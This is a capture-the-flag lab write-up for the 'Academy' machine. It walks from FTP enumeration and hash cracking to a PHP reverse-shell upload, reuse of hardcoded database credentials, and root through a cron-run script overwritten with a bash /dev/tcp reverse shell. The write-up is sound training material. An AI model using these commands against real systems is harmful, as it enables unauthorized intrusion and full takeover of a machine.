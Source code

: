 # Academy machine writeup
This is a machine from tcm security, especially practical penetration testing course

Starting with nmap scan we have three ports open 21 22 80 for ftp ssh http.
Note, this is not the best way to implement a scan in real life scenario. Since we are doing CTF, it is okay

![nmap](https://github.com/moataz-bellah/writeups/assets/47069499/76c63fa9-0903-4491-b0b6-0b3967847799)

let's enumerate ftp. Let's see if it provides anonymous login

![ftp](https://github.com/moataz-bellah/writeups/assets/47069499/8d375b8c-4015-4b4e-8807-f9d375e91ea0)

Great it does provide anonymous login. We have an interesting file "note.txt". Check that file

![note](https://github.com/moataz-bellah/writeups/assets/47069499/9cd0569b-37eb-432e-b655-0ac8f41ad4d2)

It has inssert query, ok we have good findings like user_id and password hash. Crack the hash using online website like [LINK](https://crackstation.net/).  
Yes we cracked the hash and it is "student", but how we can use that credential. Let's do some directory busting using ffuf. Why ffuf, because ffuf doesn't search inside any directory.
```
ffuf -u http://192.168.0.105/FUZZ  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ
[Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 2ms]
    * FUZZ: academy

[Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 2ms]
    * FUZZ: phpmyadmin

```
We found two paths /academy and /phpmyadmin. Let's try the credential we found in phpmyadmin, but it didn't work and it seems to be not vulnerable to sql injection, let's go to /academy. 

![dashboard](https://github.com/moataz-bellah/writeups/assets/47069499/6a8fda7f-287b-4de8-ae98-c516ae16f97b)

Great we are in, ok we are looking for a way to get a shell, there is file upload we can check it if it is vulnerable to RFI.

![upload](https://github.com/moataz-bellah/writeups/assets/47069499/df76ce66-4371-4833-aa28-ce93c7b111b9)

As we saw it is a php app we can use php reverse shell from https://github.com/pentestmonkey/php-reverse-shell. Before we upload the shell we need to set netcat to listen to any incoming connections.
```
sudo nc -nvlp 1234
```
Upload the file

![netcat](https://github.com/moataz-bellah/writeups/assets/47069499/59faf962-7311-4dfb-a177-3da285d1e0a8)

Boom we have access, go to home
```
$ cd /home
$ ls
grimmie
```
we have grimmie user
```
cd grimmie
$ ls -la
total 36
drwxr-xr-x 3 grimmie administrator 4096 Jan 25 15:26 .
drwxr-xr-x 3 root    root          4096 May 30  2021 ..
-rw------- 1 grimmie administrator    1 Jun 16  2021 .bash_history
-rw-r--r-- 1 grimmie administrator  220 May 29  2021 .bash_logout
-rw-r--r-- 1 grimmie administrator 3526 May 29  2021 .bashrc
drwxr-xr-x 3 grimmie administrator 4096 May 30  2021 .local
-rw-r--r-- 1 grimmie administrator  807 May 29  2021 .profile
-rwxr-xr-- 1 grimmie administrator   57 Jan 25 15:26 backup.sh
```
we have interesting file "backup.sh" but we can't execute it since we are www-data, we need to be grimmie, leave it now and continue exploring the server. Let's explore the website code files looking for any hardcoded credentials.
```
$ cd /var/www/html/academy
admin                   enroll-history.php  my-profile.php
assets                  enroll.php          pincode-verification.php
change-password.php     includes            print.php
check_availability.php  index.php           studentphoto
db                      logout.php
```
Inside admin/includes, there is a hardcoded credentials for mysql database
```
$ cd admin
$ cat config.php
<?php
$mysql_hostname = "localhost";
$mysql_user = "grimmie";
$mysql_password = "My_V3ryS3cur3_P4ss";
$mysql_database = "onlinecourse";
$bd = mysqli_connect($mysql_hostname, $mysql_user, $mysql_password, $mysql_database) or die("Could not connect database");
?>
```
Great we have username "grimmie" and password "My_V3ryS3cur3_P4ss", let's try to switch to grimmie
```
$ su grimmie
su grimmie
Password: My_V3ryS3cur3_P4ss

grimmie@academy:/var/www/html/academy/admin/includes$ whoami
grimmie
grimmie@academy:/var/www/html/academy/admin/includes$
```
# Privilege Escalation
Ok, get back to backup.sh, it seems that file executes each period of time, we need to make sure of that. Let's edit backup.sh and make it create a file
```
$ echo -e '#!/bin/bash \ntouch test' > backup.sh
```
We wait for a moment and see if something changes.
```
$ ls -la
total 36
drwxr-xr-x 3 grimmie administrator 4096 Jan 25 15:26 .
drwxr-xr-x 3 root    root          4096 May 30  2021 ..
-rw------- 1 grimmie administrator    1 Jun 16  2021 .bash_history
-rw-r--r-- 1 grimmie administrator  220 May 29  2021 .bash_logout
-rw-r--r-- 1 grimmie administrator 3526 May 29  2021 .bashrc
drwxr-xr-x 3 grimmie administrator 4096 May 30  2021 .local
-rw-r--r-- 1 grimmie administrator  807 May 29  2021 .profile
-rwxr-xr-- 1 grimmie administrator   57 Jan 25 15:26 backup.sh
-rwxr-xr-- 1 grimmie administrator   57 Jan 25 15:26 test
```
Great it worked, we can use that and get shell and get root privilege
```
$ echo -e '#!/bin/bash \nbash -i >& /dev/tcp/192.168.0.104/4444 0>&1' > backup.sh
```
Let's set netcat to listen on port 4444 and wait for any connection
```
sudo nc -nvlp 4444
```

![root_shell](https://github.com/moataz-bellah/writeups/assets/47069499/fa475814-fe12-4614-aa8a-0afe54bcf2e4)

Yeah we are root now.
